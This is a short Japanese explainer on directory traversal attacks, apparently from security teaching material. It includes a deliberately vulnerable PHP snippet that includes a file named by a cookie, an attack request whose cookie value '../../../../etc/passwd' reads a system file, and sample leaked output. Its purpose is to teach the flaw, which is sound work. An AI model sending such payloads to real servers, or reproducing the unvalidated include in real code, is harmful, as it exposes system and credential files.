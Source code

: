 webサイトがサーバ内のファイルを表示する際に、管理者が意図していないパスが指定されることによって、想定外のファイルが閲覧できてしまう状態を突いた攻撃手法を指します。  
ファイル名としてユーザーが任意に変更する事ができる値( GET/POSTパラメータやcookie値など )を利用する箇所で発生する可能性があります。

![ディレクトリトラバーサル](./images/IPA_Directory_Traversal.png)

##### 例
**脆弱性のあるコード例(PHP)**  
- 日本語/英語/中国語の３ヶ国語に対応したwebサイト
    - 全てのページは３ヶ国語のテンプレート(JAPANESE.html, ENGLISH.html, FRANCH.html )が予め準備されている。
    - 選択された言語のテンプレートファイル名をcookie["TEMPLATE"]に保持する。
    - コンテンツ内では選択された言語のテンプレートファイルを表示する。

```
<?php
$template = 'JAPANESE.html';
if ( is_set( $_COOKIE['TEMPLATE'] ) )
   $template = $_COOKIE['TEMPLATE'];
include ( "/var/www/templates/" . $template );
?>
```

**このシステムに対する攻撃例**  
```
GET /xxx.php HTTP/1.0
Cookie: TEMPLATE=../../../../../../../../../etc/passwd
```

**生成されるサーバのレスポンス**
```
HTTP/1.0 200 OK
Content-Type: text/html
Server: Apache

// 以下 /etc/passwd が応答結果に出力される
root:x:0:0:root:/root:/bin/bash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
// …
```
